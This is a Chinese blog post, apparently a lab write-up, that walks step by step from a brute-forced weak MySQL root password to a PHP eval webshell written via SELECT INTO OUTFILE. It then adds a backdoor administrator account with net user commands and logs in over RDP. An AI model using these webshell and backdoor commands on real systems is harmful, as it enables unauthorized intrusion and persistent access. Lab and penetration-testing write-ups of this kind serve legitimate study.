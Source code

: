 ```yaml
---
layout:     post
title:      实战之mysql从弱口令到提权+后门
subtitle:   流程思路要清晰
date:       2018-11-06
author:     蓝胖
header-img: img/post-bg-2018-10-19.jpg
catalog: true
tags:
    - mysql
    - 提权
    - 后门
    


---
```


>“你的心灵是疯狂与天才的奇妙组合。我刚把天才那部分拿走了”


实战之mysql从弱口令到提权+后门+g

 `html`

# 弱口令->Shell
 > 朋友在韩国搭建了一套靶场环境让我试试。所以有了如下记录。nmap扫端口，发现开了3306。爆破出数据库弱口令root/666666。 

接着看看系统版本 `select @@version_compile_os, @@version_compile_machine;`
看数据库版本 `select @@version;`
[![ioblut.png](https://s1.ax1x.com/2018/11/06/ioblut.png)](https://imgchr.com/i/ioblut)
[![iobu3d.png](https://s1.ax1x.com/2018/11/06/iobu3d.png)](https://imgchr.com/i/iobu3d)
发现是MariaDB,MariaDB百度了下意思就是mysql的进阶产品，未来有可能替代mysql，而且兼容大部分mysql。知道这些就够了，先搞。
继续看下其他路径`SHOW VARIABLES WHERE Variable_Name LIKE "%dir";`
[![iobKgA.png](https://s1.ax1x.com/2018/11/06/iobKgA.png)](https://imgchr.com/i/iobKgA)

现在知道了mysql的服务器以及版本信息，下面要插入一句话。但是要知道插入的路径。直接在访问IP，发现是个网站。有两个思路，一个是注入报错爆路径，一个是查看`PHPinfo`。用`wa00f`测了一下没有waf，那就跑个小字典看看有没有想要的信息。发现有PHPinfo，直接访问，找到网站真实路径`C:/xampp/htdocs`
[![iobZND.png](https://s1.ax1x.com/2018/11/06/iobZND.png)](https://imgchr.com/i/iobZND)
[![iobVAO.png](https://s1.ax1x.com/2018/11/06/iobVAO.png)](https://imgchr.com/i/iobVAO)

有了mysql写入权限+路径，就可以创建表写入一句话，或者直接写入一句话，我选择后者，因为省事，哈哈
`SELECT '<?php eval($_POST[123]) ?>' INTO OUTFILE "C://xampp//htdocs//12345.php";`
[![iobn9H.md.png](https://s1.ax1x.com/2018/11/06/iobn9H.md.png)](https://imgchr.com/i/iobn9H)
写入成功。上C刀
[![iobGE8.md.png](https://s1.ax1x.com/2018/11/06/iobGE8.md.png)](https://imgchr.com/i/iobGE8)



# shell->提权
 > `whoami` 一下是 `nt authoritysystem` 权限，百度了下也就是管理员权限。
[![iob3Hf.png](https://s1.ax1x.com/2018/11/06/iob3Hf.png)](https://imgchr.com/i/iob3Hf)

  创建一个普通用户 `net user $admin admin123 /add`  添加到管理员 `net localgroup administrators $admin /add ` 确认在不在管理员组里 ` net localgroup administrators `
[![iob1DP.md.png](https://s1.ax1x.com/2018/11/06/iob1DP.md.png)](https://imgchr.com/i/iob1DP)
  看下端口开放信息 `netstat -an `，发现开了3389，不用自己开了，直接远程连接
  

